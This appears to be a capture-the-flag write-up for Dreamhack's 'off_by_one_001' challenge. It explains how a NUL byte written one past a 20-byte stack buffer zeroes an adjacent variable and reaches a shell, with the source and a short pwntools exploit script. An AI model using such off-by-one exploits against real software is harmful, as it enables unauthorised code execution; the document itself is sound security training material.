

# 🚩 Beginner - off_by_one_001

**Category:** Pwnable

**Platform:** Dreamhack

**Description:**
This problem gives the binary and source code of the service (off_by_one_001) running on the server.
Find a vulnerability in the program and exploit it to run the get_shell function.
After obtaining a shell, you can earn points by reading the “flag” file and authenticating it to the Wargame site.
The format of the flag is DH {...} That's it.

---

## 🛠️ Step-by-Step Solution

### Step 1 : Analyze 
First, let's analyze the provided C source code:
```c
....
void read_str(char *ptr, int size)
{
    int len;
    len = read(0, ptr, size);
    printf("%d", len);
    ptr[len] = '\0';
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char name[20];
    int age = 1;

    initialize();

    printf("Name: ");
    read_str(name, 20);

    printf("Are you baby?");

    if (age == 0)
    {
        get_shell();
    }
    else
    {
        printf("Ok, chance: \n");
        read(0, name, 20);
    }

    return 0;
}
```
The program declares a `name` variable with a capacity of 20 bytes, the `read()` function also allows the user to input 20 bytes. After reading the input, the program checks if the `(age == 0)`. If true, it calls `get_shell()`.

**🔍 VULNERABILITY ANALYSIS:**
The core vulnerability here is an Off-By-One (OBO) error leading to a NULL-byte overwrite.

Looking closely at the read_str function, it reads up to size bytes (20 bytes) and then immediately executes `ptr[len] = '\0'`. If we provide exactly 20 bytes of input, len becomes 20, causing the function to append a NULL byte at `ptr[20]` (which is `name[20]`).

However, the name array can only securely hold 20 bytes (indexed from 0 to 19). Writing to `name[20]` overflows out of bounds by exactly one byte into the adjacent memory space on the Stack, which happens to be the `age` variable.

Since age is initialized to 1 (represented as 0x00000001 in memory), overwriting its least significant byte (LSB) with a NULL byte (\0 or 0x00) changes its entire value to 0 (0x00000000). This perfectly satisfies the if `(age == 0)` condition, allowing us to hijack the flow and execute get_shell().
### Step 2 : Exploit
Below is the exploit script (using the `pwntools` library):
```python
io = start()
# Wait for the prompt
io.recvuntil(b"Name: ")
# Send exactly 20 junk bytes 
payload = b"A" * 20
io.sendline(payload)

# Switch to interactive mode to interact with the shell
io.interactive()
```
→ **Note:** This snippet only demonstrates the core exploit logic. You need to write the complete script yourself to make it run (or use a `pwn` template like I did:33).

**🎯 PROOF OF CONCEPT:**
Execute the script. The payload successfully triggers the off-by-one vulnerability, modify the age variable to 0, which grants shell access. Finally, run the `cat flag` command to read the flag:

